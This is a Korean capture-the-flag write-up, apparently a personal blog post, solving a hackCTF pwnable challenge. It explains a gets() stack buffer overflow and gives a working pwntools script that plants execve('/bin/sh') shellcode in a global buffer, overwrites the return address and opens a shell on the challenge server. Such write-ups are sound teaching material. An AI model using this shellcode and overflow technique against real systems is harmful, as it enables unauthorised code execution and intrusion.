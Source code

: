 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 네번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u); // stdin으로부터 0x32바이트를 받아 name에 저장
  printf("input : ");
  gets(&s); // stdin에서 입력 받아 s에 저장
  return 0;
}
```
<br>

정리해보자.<br><br>

***

|   ret   |          |
|:-------:|:--------:|
|   sfp   | esp+0x14 |
|   ...   |          |
| s (esp) |    esp   |

***
<br>
이번에는 read와 gets를 통해 입력 받을 수 있다. read를 통해 name에 쉘코드를 작성하고 gets를 통해 main 함수의 에필로그 과정에서 ret 대신 name의 쉘코드를 실행시키자<br><br>
목표 : name에 쉘코드 작성 + ret을 name의 주소로 덮기<br>
취약점 : gets(&s)<br><br><br>
+) name의 주소는 다음과 같이 .bss영역에 위치한다. 초기값이 없는 전역변수인 모양<br>
![0401](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0401.JPG?raw=true)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3003)

payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload2 = "A"*0x18+p32(0x0804A060)

p.recvuntil("Name : ")

p.send(payload)

p.recvuntil("input : ")

p.sendline(payload2)

p.interactive()
```
## 결과  
![0402](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0402.JPG?raw=true)

